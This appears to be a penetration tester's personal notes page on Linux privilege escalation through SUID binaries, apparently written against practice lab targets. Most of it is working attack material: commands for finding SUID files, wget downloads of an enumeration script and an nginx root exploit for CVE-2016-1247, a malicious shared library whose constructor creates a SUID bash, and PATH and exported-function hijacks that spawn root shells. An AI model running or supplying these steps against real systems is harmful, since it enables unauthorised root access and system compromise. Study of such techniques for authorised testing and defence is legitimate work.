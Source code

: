 #### Detection

Files with SUID set run with higher privileges.  Can be found with "s"  on permissions.

-rws-rw-r--

Search for files that have SUID set
```bash - target
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
OR
```bash - target
find / -perm -u=s -type f 2>/dev/null
```

![[Pasted image 20220219141658.png]]


![[Pasted image 20220219141727.png]]

#### suid3num.py

https://gtfobins.github.io/#+suid

```bash - kali
wget https://raw.githubusercontent.com/Anon-Exploiter/SUID3NUM/master/suid3num.py
```

![[Python#Server]]

```bash - target
python suid3num.py
```

#### Shared Objection injection
```bash - target
find / -type f -perm -04000 -ls 2>/dev/null
```

![[Pasted image 20220219142402.png]]

![[Pasted image 20221115134928.png]]

```bash - target
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

![[Pasted image 20221115134943.png]]

The idea here is to find where we have write privileges, overwrite one of these files with our malicious code.  In this example, that file is /home/user/.config/libcalc.so


libcalc.c
```c - kali
#include <stdio.h>
#include <stdlib.h>


static void inject() __attribute__((constructor));

void inject () {
system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

Verify the output path actually exists.  If not, make it.
Example /home/user/.config

```bash - kali
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/libcalc.c
```

Now just run the original bin:

```bash - kali
/usr/local/bin/suid-so
```

![[Pasted image 20221115135412.png]]

#### CVE-2016-1247 Binary Symlinks
![[3._Automated Tools#Linux Exploit Suggester]]

![[Pasted image 20220219151234.png|1000]]

See if the target has unpatched version of nginx:

```bash - target
dpkg -l | grep nginx
```

```bash - kali
wget https://raw.githubusercontent.com/xl7dev/Exploit/master/Nginx/nginxed-root.sh
```

![[Python#Server]]

```bash - kali
./nginxed-root.sh /var/log/nginx/error.log
```

Logs must be rotated before exploit works.

#### Environmental Variables (Example 1)
```bash - target
env
```

```bash - target
find / -type f -perm -04000 -ls 2>/dev/null
```

![[Pasted image 20220219154119.png]]

/usr/local/bin/suid-env

```bash - target
strings /usr/local/bin/suid-env
```

![[Pasted image 20221115135430.png]]

We see at the bottom it is trying to start Apache by using the service binary.  We will create a malicious service binary.

```bash - target
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c
```

```bash - target
gcc /tmp/service.c -o /tmp/service
```

```bash - target
export PATH=/tmp:$PATH
```

![[Pasted image 20221115135443.png]]

Notice now, that /tmp is first on the list when it looks for binary's.

```bash - target
/usr/local/bin/suid-env
```

#### Environmental Variables (Example 2)

```bash - target
strings /usr/local/bin/suid-env2
```

![[Pasted image 20221115135456.png]]

This one uses services located in /usr/sbin/service.  

```bash - target
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
```

```bash - target
export -f /usr/sbin/service
```

![[Pasted image 20221115135509.png]]
